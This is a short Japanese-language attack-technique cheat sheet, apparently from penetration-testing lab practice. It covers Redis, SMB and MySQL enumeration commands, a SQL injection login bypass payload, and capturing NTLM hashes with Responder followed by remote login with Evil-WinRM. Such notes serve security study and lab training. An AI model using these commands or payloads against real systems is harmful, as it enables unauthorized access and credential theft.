 # 攻撃手法メモまとめ

## Redis Enumeration

```bash
redis-cli -h <host_name> -p <port_number>
info
select 0  # データベースインデックス
keys *
get <key_name>
```

---

## SMB Enumeration

- 通常、TCPポート445はSMBプロトコル
- 開いていればSMBサーバーが稼働している可能性あり

```bash
smbclient -L <host_name>
# -L: 対象ホストの共有情報を表示（Sharename, Type, Comment）

smbclient \\\\<host_name>\\<Sharename>
```

---

## SQL Injection (典型例)

```text
username: admin'#
password: a
```

---

## MySQL Enumeration

```bash
mysql -u root -h <host_name>
show databases;
use <database_name>;
show tables;
```

---

## Responder & Evil-WinRM

### Responderの起動

```bash
locate Responder.py
sudo python3 /path/to/Responder.py -i tun0
```

- Webページを読み込む: `http://<IP address>/whatever/`
- ResponderがNTLMのユーザー名やハッシュを取得

### Evil-WinRMで接続

```bash
evil-winrm -i <host_name> -u <username> -p <password>
```

---
